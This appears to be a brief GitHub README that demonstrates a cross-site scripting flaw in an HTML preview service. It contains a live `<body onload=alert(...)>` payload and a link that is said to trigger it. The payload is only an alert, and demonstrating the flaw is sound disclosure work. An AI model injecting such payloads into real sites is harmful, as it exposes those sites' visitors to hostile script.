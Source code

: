 <body onload=alert('esp0xdeadbeef_was_here')>;

  
go to: https://htmlpreview.github.io/?https://github.com/esp0xdeadbeef/htmlpreviewxss/blob/main/README.md and it will trigger the xss in this file.
